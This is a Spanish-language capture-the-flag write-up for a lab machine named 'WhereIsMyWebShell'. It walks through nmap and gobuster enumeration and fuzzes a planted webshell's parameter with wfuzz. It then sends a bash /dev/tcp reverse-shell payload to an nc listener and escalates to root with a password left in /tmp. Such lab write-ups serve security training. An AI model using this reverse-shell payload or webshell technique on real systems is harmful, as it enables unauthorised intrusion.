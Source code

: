 # WhereIsMyWebShell

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
```
Reviamos la web vemos un mensaje que han dejado.
```
Contáctanos

¡Contáctanos hoy mismo para más información sobre nuestros programas de enseñanza de inglés!. Guardo un secretito en /tmp ;)
```
Nos quedmos que tenenmos que revisar el direcctorio **/tmp** cuando tengamos acceso al equipo. De momento vamos a hacer fuzzing a ver si encontramos algo.
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
```
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/.php                 (Status: 403) [Size: 275]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished

```
Hay dos páginas que llaman la atención **/warning.html** y **/shell.php**, así que vamos a revisarlas.
En **/warning.html** encontramos el siguiente mensaje, que ya nos indica que tenemos que buscar un parámetro para poder utilizar una websell.
```
Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...
```
```bash
wfuzz -c -t 200 --hl=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```
Utilizamos **wfuzz** para buscar el parámetro que nos falta con eso lanzarnos una revershell poniéndonos en escucha por el puerto 443 de nuestro equipo.
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000115401:   200        2 L      4 W        66 Ch       "parameter"
```

## Explotación.
Nos ponemos en escucha por el puerto 443 y lanzamos una reverse shell desde la página **http://172.17.0.2/shell.php**
```bash
nc -lvnp 443
```

```bash
172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 %2Fdev%2Ftcp%2F172.17.0.1%2F443 0>%261"
```
```
 nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 37622
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@d9fa4b4b8612:/var/www/html$ whoami
whoami
www-data
```
Recordar que al principio nos habían dejado en la página principal que había un secreto en la ruto ***/tmp**, así que vamos a ver.
```bash
www-data@d9fa4b4b8612:/tmp$ ls -la
ls -la
total 12
drwxrwxrwt 1 root root 4096 May 20 04:55 .
drwxr-xr-x 1 root root 4096 May 20 04:55 ..
-rw-r--r-- 1 root root   21 Apr 12 16:07 .secret.txt
```
Vemos que oculto hay un archivo **.secret.txt**.
```bash
www-data@d9fa4b4b8612:/tmp$ cat .secret.txt
cat .secret.txt
contraseñaderoot123
```
Parece que tenemos la contraseña de root, así que cambiamos de usuario utilizando la contraseña encontrada y ya tenemos acceso a la máquina como root.
```bash
www-data@d9fa4b4b8612:/tmp$ su root
su root
Password: contraseñaderoot123
whoami
root
```

